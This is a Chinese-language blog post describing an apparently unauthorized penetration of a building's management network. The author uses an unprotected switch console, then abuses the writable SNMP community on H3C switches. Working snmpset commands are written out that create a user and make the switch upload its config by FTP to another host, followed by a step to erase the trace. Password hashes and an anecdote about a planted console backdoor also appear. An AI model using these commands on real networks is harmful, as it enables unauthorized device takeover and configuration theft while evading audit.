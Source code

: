 ```yaml
---
title: SNMP is not only "Monitoring" Protocol - Exploiting H3C SNMP
date: 2024-11-25 14:04:08
tags:
---
```


Simple Network *Management* Protocol 是一个用于网络监控和管理的协议. 对于不少人而言, 使用 Grafana 等软件配置 SNMP 监控可以对各种维护信息进行方便地可视化; 但是很多时候我们会忘记, SNMP 是用于 "管理" 的协议, 而不只是 "监控". 因此, 当我们打开 SNMP 时, 我们常常忽略可写的默认配置 (`private` community), 而这会带来灾难性的后果. 这篇博客记录了一次近源渗透的过程.

<!-- more -->

### 交换机在网络间, 网络间锁门, 所以交换机串口不用设密码

有句笑话, "内网安全全靠内网". 这句话在交换机管理口上似乎也适用. 起因是某一天, 我发现网络间的门是开着的, 遂跑进去看了一眼. 由于随身携带网串口线, 我就顺势接了进去. 你猜咋的, Console 口没有 Login 口令也没有 Enable 口令, 直接就是 manage 权限. 后来有位神人把他工位上的网口在网络间的那一端插到 Console 里面去了, 于是获取了 *"持久化"* 的管理权限, 还把旁边的口改成了 Trunk permit all.

### 管理 VLAN 暴露

我本来是懒得管这事的, 但是那位神人把自己的机器接进了管理 VLAN, 狠狠 nmap, 发现里面有不少 H3C 的设备, 应该是整栋楼的网都在里面了. 这下不得不玩一玩了.

我们首先分析了从串口拿到的配置文件, 试图从里面找到 SSH 登录的明文口令. 显然, 没有成功. 但也不是没有收获:

```cfg
local-user #redacted# class manage
 password hash $h$6$/g0pzMiowRibMf+V$gCebiPsmL+rx97v9AHzImTVu/dd5OvkUB2vzPqq9igyaeMeN9yi6b0ffhUyElujx4NF4t9eWn9nZ7zi6C/3rWw==
 service-type ssh
 authorization-attribute user-role network-admin
 authorization-attribute user-role network-operator
 password-control length 4
 undo password-control complexity user-name check
```

这里有密码 Hash, 我们尝试了爆破 ([`$h$6$` Hashcat](https://github.com/84634E1A607A/hashcat/tree/switch_6) ), 但是没有成功. (这告诉我们强密码还是很重要的) 虽然这里面有两个让人浮想联翩的指令 (最小密码长度为 4, 且允许密码中含有用户名), 但是爆破的结果确实不尽如人意.

后来发现 SNMP 开启, 故转而尝试攻击 SNMP.

```cfg
 snmp-agent
 snmp-agent local-engineid 800063A280542BDE8D70C200000001
 snmp-agent community write private
 snmp-agent community read public
 snmp-agent community read cipher $c$3$ljPpsn9d1TBzHoeOpGi1eYcWjfU1nQ==
 snmp-agent community write cipher $c$3$MfmpsSsRFIeSziIk4dkOYMkWuufIEB4=
 snmp-agent sys-info version v1 v2c 
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname public v2c
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname public v2c
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname xxx v2c
```

一开始我还尝试逆向 `$c$3$` crypto, 发现有亿点麻烦; 后来发现这个 `read public` 就是明文, 完全没必要去逆向这个 crypto. 再后来我就懒得管了, 停了不少时间.

### SNMP

这两天突然想起来, SNMP 除了这个只读的 `public` 之外, 还有一个可写的叫 `private` 的 community. 这就不得不试试能不能通过 SNMP 获得全部的权限了.

首先, SNMP 本身就能更改不少东西, 包括但不限于端口的开关, 通过的 VLAN, 等等. 可以说, 有 SNMP 写权限就已经有了 80% 的权限. 但是, 能不能通过 SNMP 拿到 SSH 权限呢?

为了搞清楚 SNMP 在干啥, 首先我们去 H3C 官网拿到 MIB 文件 `20210923_6181667_Comware_MIB-20210918_635750_30003_0` (我就不放上来了). 通过 `snmpwalk -v2c -c public xxx.xxx.xxx.xxx 1.` 等手段可以方便地拿到只读信息. 然后可以对我们感兴趣的部分做研究.

#### SSH?

H3C 对 SSH-MIB 的解释在 [这里](https://www.h3c.com/en/Support/Resource_Center/EN/Switches/Catalog/S9820/S9820/Technical_Documents/Reference_Guides/MIB_Companion/H3C_S9820_8C_MIB_Companion_Rele-17750/13/202403/2070882_294551_0.htm) (应该不会倒闭吧). 对 SSH 的攻击思路是: 新建一个 SSH 用户, 开启这个用户的公钥登录, 把自己的公钥设置进去, 登录; 或者新建一个 SSH 用户并新建一个本地用户, 设置本地用户的密码, 使用 SSH 密码登录.

非常可惜的是, 设置 SSH 公钥登录的逻辑是 新建公钥 -> 给公钥命名 -> 给 SSH 用户 Assign 这个名称. 而我没有找到如何使用 SNMP 创建公钥. 因此, 这条路倒闭了. (如果手头有一台设备, 或许可以对照一下试出来)

而设置密码登录需要新建本地用户. 理论上这个交换机里面已经有两个本地用户了, 但是我从 SNMP 的 USER 表里面读出来的个数是 0. 因此, SNMP 的 USER 表和交换机的 local user 似乎有一些区别. 在使用 [USER-MIB](https://www.h3c.com/en/Support/Resource_Center/HK/Routers/H3C_SR8800-F/H3C_SR8800-F/Technical_Documents/Reference_Guides/MIB_Companion/H3C_SR8800_F_Routers_MIB_R-13029/17/202308/1909461_294551_0.htm) 创建用户之后, SSH 也无法登陆.

这条路到这里似乎就寄了. 但是还是记录一下:

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-USER-MIB::hh3cUserName.1 string adnin HH3C-USER-MIB::hh3cUserInfoRowStatus.1 integer 4 HH3C-USER-MIB::hh3cUserPassword.1 string AdminADN1n HH3C-USER-MIB::hh3cAuthMode.1 integer 0
```

#### CFG?

后来我又翻到了这篇文档: [通过SNMP进行配置文件管理举例](https://www.h3c.com/cn/d_200906/636072_30003_0.htm#_Toc231200647)

也就是说, **SNMP 可以用于直接管理交换机的配置文件**. 对应 OID 位于 [HH3C-CONFIG-MAN-MIB::hh3cCfgOperateTable](https://www.h3c.com/cn/d_202202/1547434_30005_0.htm), 其中 `hh3cCfgOperateType` 可以管理交换机配置文件, 且参数可以是 `running2Startup(1) startup2Running(2) running2Net(3) net2Running(4) net2Startup(5) startup2Net(6) running2File(7) file2Running(8)`. 可以看到, 此表支持利用 FTP 把当前配置传到远程主机上, 也可以从远程主机下载配置.

需要注意的是, 此处会使用 FTP 的 ascii mode (这个狗屎玩意已经被很多 FTP 服务器弃用了, 需要在配置里面手动开启).

使用以下命令:

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-CONFIG-MAN-MIB::hh3cCfgOperateType.1 integer 6 \ # 6: startup2Net
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateRowStatus.1 integer 4 \ # 4: createAndGo, 即创建后立即执行
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateProtocol.1 integer 1 \ # 1: FTP
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateFileName.1 string t/cfg \ # FTP 上传的位置
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateServerAddress.1 a 192.168.xxx.yyy \ # FTP 服务器的地址
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateUserName.1 string anonymous \ # FTP 用户
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateUserPassword.1 string anonymous \ # FTP 密码
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateServerPort.1 integer 21 \ # FTP 端口
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateSrvAddrType.1 integer 1 # 1: ipv4
```

在 FTP 服务器配置正确的情况下, 就可以拿到交换机的配置文件了. (怎么改就不用说了吧) 然后记得删掉这一行, 清除痕迹 (不过会有 Log 记录下来)

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-CONFIG-MAN-MIB::hh3cCfgOperateRowStatus.1 integer 6
```

至此, 这整个管理网就算烂完了. 不过在搞完之后发现由于没有配 ACL, 以业务网的交换机地址为网关可以直接访问管理网...... 所以好像也没什么问题......
